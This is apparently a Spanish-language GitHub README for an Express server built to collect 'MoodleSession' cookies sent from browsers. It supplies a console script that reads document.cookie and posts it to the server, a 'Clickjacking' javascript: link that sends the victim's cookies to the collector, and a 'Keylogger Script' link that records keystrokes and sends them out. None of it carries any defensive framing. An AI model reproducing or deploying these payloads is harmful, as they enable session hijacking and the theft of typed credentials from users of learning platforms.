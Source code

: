 # Proyecto API con Express

## Descripción

Este proyecto es una API simple creada con Express que permite recibir cookies desde el cliente. Utiliza CORS para permitir solicitudes desde diferentes orígenes y dotenv para gestionar variables de entorno.

## Características

- Endpoint GET para verificar que la API está funcionando.
- Endpoint POST para recibir una cookie (MoodleSession) y enviar una respuesta de éxito.

## Instalación

1. Clona el repositorio.
2. Navega al directorio del proyecto.
3. Ejecuta `npm install` para instalar las dependencias.
4. Configura las variables de entorno en un archivo `.env`.
5. Inicia el servidor con `node index.js` o `npm start`.

## Uso

- **GET /**: Devuelve un mensaje indicando que la API está funcionando.
- **POST /cookie**: Envía un JSON con la cookie `MoodleSession` y recibe una respuesta de éxito.

## Ejemplo de uso desde el navegador

Puedes probar la API utilizando el siguiente script en la consola del navegador:

```javascript
const getCookies = () => {
  return document.cookie.split(";");
};

fetch("http://localhost:8000/cookie", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ MoodleSession: getCookies() }),
});
```

## También puedes probar la API utilizando curl
```bash
curl -X POST http://localhost:8000/cookie -H "Content-Type: application/json" -d "{\"MoodleSession\":\"Cookie de ejemplo\"}"
```

## Clickjacking
```
<a href="javascript:eval('fetch(\'http://localhost:8000/cookie\', { method: \'POST\', headers: { \'Content-Type\': \'application/json\' }, body: JSON.stringify({ MoodleSession: document.cookie}) });')">Click aquí</a>
```

## Keylogger Script
```
<a href="javascript:eval(`const keyboardLogger = []; document.addEventListener('keydown', (event) => { keyboardLogger.push(event.key); if (keyboardLogger.length > 10) { fetch('http://localhost:3000/keylogger', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ keyboardLogger: keyboardLogger.join('') }) }); keyboardLogger.length = 0; } });`);">Click aquí</a>
```

## Autor

**Iván L. Álvarez**  
- GitHub: [ivanlalvarez22](https://github.com/ivanlalvarez22)  
- Portafolio: [ivanalvarez-contacto.vercel.app](https://ivanalvarez-contacto.vercel.app/)
